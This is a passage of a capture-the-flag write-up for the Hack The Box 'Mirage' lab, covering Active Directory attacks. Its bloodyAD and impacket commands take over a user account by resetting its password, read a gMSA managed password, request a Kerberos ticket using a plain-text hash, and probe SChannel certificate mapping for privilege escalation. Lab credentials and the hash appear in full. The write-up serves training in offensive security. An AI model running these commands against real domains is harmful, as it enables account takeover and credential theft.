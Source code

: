 
## 🛠️ Lets prepare the user `javier.mmarshall` (MITRE ATT&CK: Credential Access / Defense Evasion)

Since we can make changes on the user, lets get it prepared.

```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object javier.mmarshall userAccountControl -v 512
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set object javier.mmarshall logonHours
bloodyAD --host dc01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' -k set password javier.mmarshall 'Password123@'
```

### 🧬 Lets get the hash from `Mirage-Service$`

```bash
bloodyAD -k --host dc01.mirage.htb -d 'mirage.htb' -u 'javier.mmarshall' -p 'Password123@' get object 'Mirage-Service$' --attr msDS-ManagedPassword
```

![bloodyAD](assets/img/bloodyAD.png)

### 🎟️ Lets get a `TGT` for the computer account

```bash
impacket-getTGT mirage.htb/Mirage-Service\$ -hashes :305806d84f7c1be93a07aaf40f0c7866
```

**Result:**

```bash
[*] Saving ticket in Mirage-Service$.ccache
```

> Export the `TGT` with the command `export KRB5CCNAME=Mirage-Service$.ccache`

---

## 🧩 Enumerate `Schannel` (MITRE ATT&CK: Privilege Escalation)

We can look if the `CertificateMappingMethods` includes the **`UPN-only bi (0x4)`**, **allowing SChannel** authentication based purely on the certificate `UPN (User Principal Name)`, ignoring the `SID`.

```powershell
reg query 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
```
